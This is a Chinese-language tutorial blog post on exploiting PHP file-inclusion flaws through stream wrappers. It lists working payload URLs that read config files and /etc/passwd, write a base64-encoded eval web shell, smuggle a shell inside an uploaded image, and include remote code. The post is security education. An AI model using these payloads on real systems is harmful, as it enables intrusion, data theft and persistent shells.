 本地文件包含（Local File Include） 远程文件包含（Remote File Include），大概就是一个文件里面包含另外一个文件，程序员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#%E5%8C%85%E5%90%AB%E6%96%87%E4%BB%B6%E7%9A%84%E5%87%BD%E6%95%B0 "包含文件的函数")包含文件的函数

- require
- include
- require_once
- include_once
- 包含函数一共有4个，主要作用为包含并允许指定文件。  
    比如include($file)，当$file变量可控的情况下，我们就可以包含任意文件，从而达到getshell的目的。  
    在不同的配置环境下，可以包含不同的文件。因此又分为远程文件包含和本地文件包含。  
    在allow_url_include = On以及allow_url_fopen = On时，允许远程包含文件，而默认情况下allow_url_include = Off  
    PHP.ini：  
    在php5.2以上，allow_url_fopen ：on 默认开启，allow_url_include：off 默认关闭  
    _文件包含是否支持%00截断取决于：PHP版本<=5.2 可以使用%00进行截断。_

### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#php%E4%BC%AA%E5%8D%8F%E8%AE%AE "php伪协议")php伪协议

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#php%E7%9A%84%E4%BC%AA%E5%8D%8F%E8%AE%AE%E6%9C%89%EF%BC%9A "php的伪协议有：")php的伪协议有：

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9  <br>10  <br>11  <br>12  <br>13  <br>14|php:// — 访问各个输入/输出流（I/O streams）  <br>file:// — 访问本地文件系统  <br>phar:// — PHP 归档  <br>zip:// - 压缩流  <br>bzip2:// - 压缩流  <br>zlib:// — 压缩流  <br>data:// — 数据（RFC 2397）  <br>http:// — 访问 HTTP(s) 网址  <br>ftp:// — 访问 FTP(s) URLs  <br>glob:// — 查找匹配的文件路径模式  <br>ssh2:// — Secure Shell 2  <br>rar:// — RAR  <br>ogg:// — 音频流  <br>expect:// — 处理交互式的流|

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#%E5%B8%B8%E7%94%A8%E7%9A%84%E4%BC%AA%E5%8D%8F%E8%AE%AE%EF%BC%9A "常用的伪协议：")常用的伪协议：

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7|php:// — 访问各个输入/输出流（I/O streams）  <br>file:// — 访问本地文件系统  <br>phar:// — PHP 归档  <br>zip:// — 压缩流  <br>data:// — 数据（RFC 2397）  <br>http:// — 访问 HTTP(s) 网址  <br>ftp:// — 访问 FTP(s) URLs|

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#php-%E5%8D%8F%E8%AE%AE "php://协议")php://协议

|   |   |
|---|---|
|1  <br>2|php://filter  <br>php://input|

php://filter用于读取源码，php://input用于执行php代码。

php://filter：在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用，主要用于读取文件源代码并进行base64编码输出。  

|   |   |
|---|---|
|1  <br>2|http://www.inc.com/inc.php?file=php://filter/read=convert.base64-encode/resource=./config/db.php  <br>输出：PD9waHAgDQokY29uPW15c3FsaV9jb25uZWN0KCJsb2NhbGhvc3QiLCJyb290Iiwicm9vdCIsImRiIik7IA0KaWYgKCEkY29uKSANCnsgDQogICAgZGllKCLov57mjqXplJnor686ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsgDQp9IA0K|

将base64解码就可以看到db.php文件内容

php://input：访问各个输入/输出流。CTF中经常使用file_get_contents获取php://input内容(POST)，需要开启allow_url_include，并且当enctype=”multipart/form-data”的时候 php://input是无效的  
写入一句话  

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5|http://www.inc.com/inc.php?file=php://input  <br>post数据:  <br><?php   <br>echo file_put_contents("test.php",base64_decode("PD9waHAgZXZhbCgkX1BPU1RbJ2NjJ10pPz4="));  <br>?>|

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#file-%E5%8D%8F%E8%AE%AE "file://协议")file://协议

file://：用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响，file://还经常和curl函数(SSRF)结合在一起。  

|   |   |
|---|---|
|1|http://www.inc.com/inc.php?file=file:///etc/passwd|

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#phar-%E5%8D%8F%E8%AE%AE "phar://协议")phar://协议

phar://：PHP 归档，常常跟文件包含，文件上传结合着考察。当文件上传仅仅校验mime类型与文件后缀，可以通过以下命令进行利用。  

|   |   |
|---|---|
|1  <br>2  <br>3|利用方式：写入一句话shell.php -> 压缩为shell.zip -> 修改后缀为shell.jpg ->上传到网站 -> phar://shell.jpg/shell.php  <br>shell.php->shell.zip->shell.jpg->upload->phar://shell.jpg/shell.php  <br>http://www.inc.com/inc.php?file=phar://shell.jpg/shell.php|

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#zip-%E5%8D%8F%E8%AE%AE "zip://协议")zip://协议

zip://：在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用，,类似phar://，使用如下：  
利用方式：  

|   |   |
|---|---|
|1  <br>2  <br>3|写入一句话shell.php -> 压缩为shell.zip -> 修改后缀为shell.jpg ->上传到网站 -> phar://shell.jpg/shell.php  <br>shell.php->shell.zip->shell.jpg->upload->phar://shell.jpg%23shell.php 	// %23 == #  <br>http://www.inc.com/inc.php?file=zip://./shell.jpg%23shell.php|

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#bzip2-%E5%8D%8F%E8%AE%AE-amp-amp-zlib "bzip2://协议 && zlib://")bzip2://协议 && zlib://

bzip2://协议 && zlib://：在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用:  

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7|compress.bzip2://file.bz2 	//处理的是 '.bz2' 后缀的压缩包  <br>http://www.inc.com/inc.php?file=compress.bzip2://D:/soft/phpStudy/WWW/shell.jpg  <br>http://www.inc.com/inc.php?file=compress.bzip2://./shell.jpg  <br>  <br>compress.zlib://file.gz 	//处理的是 '.gz' 后缀的压缩包  <br>http://www.inc.com/inc.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg  <br>http://www.inc.com/inc.php?file=compress.zlib://./file.jpg|

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#data-%E5%8D%8F%E8%AE%AE "data://协议")data://协议

data://：需满足allow_url_fopen，allow_url_include同时开启才能使用:  

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5|http://www.inc.com/inc.php?file=data://text/plain,<?php phpinfo()?>  <br>http://www.inc.com/inc.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=  <br>http://www.inc.com/inc.php?file=data:text/plain,<?php phpinfo()?>  <br>http://www.inc.com/inc.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=  <br>http://www.inc.com/inc.php?file=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX3B1dF9jb250ZW50cygidGVzdC5waHAiLGJhc2U2NF9kZWNvZGUoIlBEOXdhSEFnWlhaaGJDZ2tYMUJQVTFSYkoyTmpKMTBwUHo0PSIpKTs/Pg==|

#### [](https://smelond.com/2018/09/04/LFI%E4%BB%A5%E5%8F%8ARF(%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB)%E4%BC%AA%E5%8D%8F%E8%AE%AE%E5%88%A9%E7%94%A8%E5%B0%8F%E6%8A%80%E5%B7%A7/#http-amp-amp-ftp "http:// && ftp://")http:// && ftp://

http:// && ftp:// 需满足allow_url_fopen，allow_url_include同时开启才能使用，可访问内网主机主机  

|   |   |
|---|---|
|1  <br>2  <br>3|?file=[http\|https\|ftp]://xxx/file.txt[?%23]	远程代码执行  <br>?file=[http\|https\|ftp]://xxx/file 	利用XSS执行任意代码  <br>?file=http://xxx/xss.php?xss=phpcode 	远程代码执行|

---

参考：  
[http://www.freebuf.com/column/148886.html](http://www.freebuf.com/column/148886.html)  
[https://www.jianshu.com/p/0a8339fcc269](https://www.jianshu.com/p/0a8339fcc269)